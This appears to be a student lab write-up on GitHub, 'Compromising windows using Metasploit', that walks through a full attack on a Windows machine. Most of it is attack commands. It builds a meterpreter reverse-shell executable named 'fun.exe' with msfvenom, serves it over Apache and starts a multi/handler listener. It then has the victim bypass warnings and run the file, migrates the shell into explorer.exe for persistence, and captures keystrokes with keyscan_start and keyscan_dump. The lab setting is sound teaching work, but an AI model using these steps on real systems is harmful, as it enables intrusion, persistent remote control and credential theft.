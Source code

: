 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

![Screenshot 2024-04-24 083134](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/3c2a2010-2359-4571-a58f-d200759f34a8)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![Screenshot 2024-04-24 083146](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/b99a4e6b-48a1-4a07-8489-4369121bea5c)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-04-24 083201](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/40497d17-096b-46cf-a6cc-ca3372776719)

Start apache server sudo systemctl apache2 start

![Screenshot 2024-04-24 083234](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/66a0c1b4-52d0-4391-979f-f0a2c44e1643)

Check the status of apache2

![Screenshot 2024-04-24 083309](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/a31e9020-30ea-4761-8af3-c5b98f51a367)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![Screenshot 2024-04-24 083339](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/dd19969a-4a23-4793-9976-e15ad7bbd664)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![Screenshot 2024-04-24 083405](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/5f1f0412-7440-4ead-9a2f-8be93ce7ff16)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-04-24 083422](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/949a0b8f-4725-4c59-9441-9271a1d2c223)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-04-24 083436](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/b12a63f9-4971-49e6-b66f-3a672f73c439)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-04-24 083454](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/1fa5d8d0-eeef-4ef1-a2be-9795445f1e30)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2024-04-24 083501](https://github.com/RahulKrishna05/Compromising-windows-using-Metasploit/assets/162027231/15941174-012b-4f93-b402-805ed8aa92a1)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
